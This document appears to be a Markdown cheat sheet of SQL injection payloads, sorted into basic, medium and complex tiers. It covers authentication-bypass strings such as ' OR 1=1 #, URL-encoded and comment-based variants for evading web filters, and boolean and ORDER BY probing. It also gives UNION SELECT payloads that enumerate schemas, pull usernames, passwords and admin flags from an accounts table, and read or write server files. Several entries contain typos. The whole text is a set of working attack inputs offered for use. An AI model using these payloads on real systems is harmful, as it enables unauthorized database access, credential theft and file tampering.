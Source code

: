 ### Top SQL Injections:



1- >> ' OR 1=1 #

2- >> " OR 1=1 #

3- >> '  OR 1=1 ' LIMIT 1 #

4- >> "  OR 1=1 ' LIMIT 1 #

5- >> %27%09OR%091%3D1%23 | (ENCODING to bypass the space filter by replacing it with tabs) | use BurpSuite >> `'   OR  1=1#`

6- >> %27%20%2F%2A%2A%2For%2F%2A%2A%2F1%3D1%23 | (ENCODING to bypass spaces and tabs filter) >> `' /**/or/**/1=1#`

&nbsp;
&nbsp;
&nbsp;
---------------------------------------------------------------------------------------------------------------------------------------



### Summary:


__Basic__

>> __' OR 1=1 ;-- - __ 
    
>> __') OR 1=1; -- - __ 
   
>> __' and 'a '='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;

__Medium:__


>>  1' and 1=1 &nbsp;  | nbsp; True 


>>  1' and 1=0 &nbsp;  |  &nbsp; False 


>>  1' order by 1  &nbsp; |  &nbsp; True


>>  1' order by 10000 &nbsp; | &nbsp; False


>>  1 or db_name()=1); &nbsp;|  &nbsp;


>>  1 or db_name(0)=1) &nbsp; | &nbsp; increase the number until the database does not show any errors



>> 9999' UNION SELECT name,222,'else1' FROM master.syslogin; -- 

&nbsp;
&nbsp;
&nbsp;

__Complex:__

>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb |

